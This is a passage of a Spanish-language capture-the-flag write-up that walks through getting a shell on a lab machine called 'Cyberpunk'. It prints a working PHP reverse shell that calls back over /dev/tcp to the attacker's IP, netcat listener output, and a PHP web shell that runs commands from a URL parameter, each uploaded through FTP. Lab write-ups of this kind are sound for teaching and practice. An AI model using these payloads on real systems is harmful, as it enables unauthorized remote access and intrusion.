 Otra opción que pudimos haber hecho, sería crear nuestra propia **Reverse Shell**.

Esta sería la **Reverse Shell** que usaríamos:
```php
<?php
	system("bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1'");
?>
```

Vamos a subirlo al **servicio FTP**:
```bash
ftp> put revShell2.php 
local: revShell2.php remote: revShell2.php
229 Entering Extended Passive Mode (|||50390|)
150 Abriendo conexión de datos en modo BINARY para revShell2.php
100% |*********************************************************|   126        1.15 MiB/s    00:00 ETA
226 Transferencia completada
126 bytes sent in 00:00 (48.67 KiB/s)
```

Abre una **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Y, vamos a visitar en la página web la **Reverse Shell** que cargamos en el **servicio FTP**.

Revisa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.120] 46368
bash: cannot set terminal process group (487): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Cyberpunk:/var/www/html$
```
Listo, otra vez estamos dentro.

<br>

<h2 id="PHP3">Creando y Utilizando WebShell de PHP para Obtener Sesión en Máquina Víctima</h2>

Esto es bastante sencillo.

Vamos a crear un script de **PHP** que funcione como una **WebShell**:
```php
<?php
	system($_GET['cmd']);
?>
```

Lo cargamos al **servicio FTP**:
```bash
ftp> put cmd.php 
local: cmd.php remote: cmd.php
229 Entering Extended Passive Mode (|||6665|)
150 Abriendo conexión de datos en modo BINARY para cmd.php
100% |***************************************************|    32      322.16 KiB/s    00:00 ETA
226 Transferencia completada
32 bytes sent in 00:00 (5.98 KiB/s)
```

